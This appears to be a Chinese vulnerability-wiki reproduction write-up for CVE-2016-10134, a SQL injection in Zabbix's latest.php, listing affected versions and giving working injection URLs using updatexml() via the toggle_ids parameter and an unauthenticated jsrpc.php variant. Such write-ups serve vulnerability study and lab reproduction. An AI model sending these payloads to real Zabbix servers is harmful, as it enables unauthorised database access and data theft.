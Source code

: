 （CVE-2016-10134）Zabbix latest.php sql注入漏洞
===============================================

一、漏洞简介
------------

Zabbix2.2.14之前的版本和3.0.4之前的3.0版本中存在SQL注入漏洞。远程攻击者可借助`latest.php`文件中的`toggle_ids`数组参数利用该漏洞执行任意SQL命令。

二、漏洞影响
------------

Zabbix2.2.14之前的版本和3.0.4之前的3.0版本

三、复现过程
------------

访问`http://www.0-sec.org:8080`，用账号`guest`（密码为空）登录游客账户。

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-10134)Zabbixlatest.phpsql注入漏洞/media/rId24.png)

将这16个字符作为sid的值，访问`http://www.0-sec.org:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-10134)Zabbixlatest.phpsql注入漏洞/media/rId25.png)

这个漏洞也可以通过jsrpc.php触发，且无需登录：`http://www.0-sec.org:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`：

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2016-10134)Zabbixlatest.phpsql注入漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/zabbix/CVE-2016-10134/
